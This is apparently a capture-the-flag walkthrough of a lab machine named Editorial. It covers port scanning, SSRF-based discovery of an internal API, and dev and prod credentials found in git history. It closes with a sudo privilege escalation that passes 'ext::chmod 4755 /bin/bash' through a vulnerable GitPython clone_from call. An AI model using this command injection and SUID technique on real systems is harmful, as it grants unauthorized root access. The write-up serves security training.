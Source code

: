 #windows #file-upload

# NMAP 
```shell
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-06 21:23 CDT
Warning: 10.129.201.125 giving up on port because retransmission cap hit (2).
Nmap scan report for 10.129.201.125
Host is up (0.077s latency).
Not shown: 65193 closed tcp ports (reset), 340 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 0d:ed:b2:9c:e2:53:fb:d4:c8:c1:19:6e:75:80:d8:64 (ECDSA)
|_  256 0f:b9:a7:51:0e:00:d5:7b:5b:7c:5f:bf:2b:ed:53:a0 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://editorial.htb
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 68.16 seconds

```


> /uploads has a form that potentially could enumerate the machine through ssrf 
>
> tried a [payload](https://raw.githubusercontent.com/danielmiessler/SecLists/master/Fuzzing/LFI/LFI-Jhaddix.txt)  for lfi enumeration 
> 
> also enumerated internal port using burpsuite, found port 5000 and endpoints on the port, 

```shell
{"messages":[{"promotions":{"description":"Retrieve a list of all the promotions in our library.","endpoint":"/api/latest/metadata/messages/promos","methods":"GET"}},{"coupons":{"description":"Retrieve the list of coupons to use in our library.","endpoint":"/api/latest/metadata/messages/coupons","methods":"GET"}},{"new_authors":{"description":"Retrieve the welcome message sended to our new authors.","endpoint":"/api/latest/metadata/messages/authors","methods":"GET"}},{"platform_use":{"description":"Retrieve examples of how to use the platform.","endpoint":"/api/latest/metadata/messages/how_to_use_platform","methods":"GET"}}],"version":[{"changelog":{"description":"Retrieve a list of all the versions and updates of the api.","endpoint":"/api/latest/metadata/changelog","methods":"GET"}},{"latest":{"description":"Retrieve the last version of api.","endpoint":"/api/latest/metadata","methods":"GET"}}]}

```
> 
> found credentials 
```shell
Username: dev\nPassword: dev080217_devAPI!@
```
## Post exploitation
>uses git version control, found a version using `git log`, it contains `prod` user credentials
>

```shell
prod\nPassword: 080217_Producti0n_2023!@
```

> has root privileges on a specific python file
```shell
 (root) /usr/bin/python3
        /opt/internal_apps/clone_changes/clone_prod_change.py *

```

> the python file uses a [vulnerable](https://security.snyk.io/vuln/SNYK-PYTHON-GITPYTHON-3113858)  function (clone_from) from git Library on where it can trigger RCE, used it to change /bin/bash to an SUID file
> 
```bash
sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::chmod 4755 /bin/bash'

```

```shell
/bin/bash -p
```

> gained root access